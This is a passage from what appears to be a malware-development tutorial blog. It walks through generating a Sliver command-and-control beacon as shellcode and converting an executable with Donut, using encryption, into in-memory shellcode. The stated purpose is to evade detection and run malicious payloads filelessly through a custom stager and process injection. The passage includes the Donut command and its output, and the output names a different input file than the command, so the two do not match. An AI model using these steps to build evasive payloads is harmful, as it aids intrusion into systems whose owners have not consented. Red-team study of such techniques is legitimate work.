 This command will save the shellcode for our Sliver beacon in `/tmp/rev.bin`. If you don't want to generate the shellcode within Sliver, we can also generate an executable (default) and use an mTLS listener.

![Generating a Sliver beacon and listener](/assets/images/maldev/sliver-setup1.png)

In order to better evade detection, we can convert the executable to a `.bin` file with [Donut](https://github.com/TheWover/donut). Donut is a tool focused on creating binary shellcodes that can be executed in memory. Its primary strength lies in its ability to convert executables (.exe), dynamic-link libraries (.dll), .NET assemblies, VBScript, and JScript into shellcode. This shellcode can then be injected into a running process, allowing for fileless execution of malicious payloads. I'll use Donut with the `-b 1` flag to not add AMSI bypass and the `-e 3` flag for encryption.

```console
$ ./donut -b 1 -e 3 -o rev.bin -i /tmp/ESSENTIAL_THEATER.exe 

  [ Donut shellcode generator v1 (built Dec 26 2024 11:15:37)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "/tmp/SHORT_JODHPURS.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP/ETW : none
  [ PE Headers    : overwrite
  [ Shellcode     : "/tmp/rev.bin"
  [ Exit          : Thread
```

The idea is that our final stager will grab this binary shellcode file and execute it in memory. There are plenty of existing PE loaders to perform Process Injection into a target process. However, as a learning experience I wanted to create my own loaders.
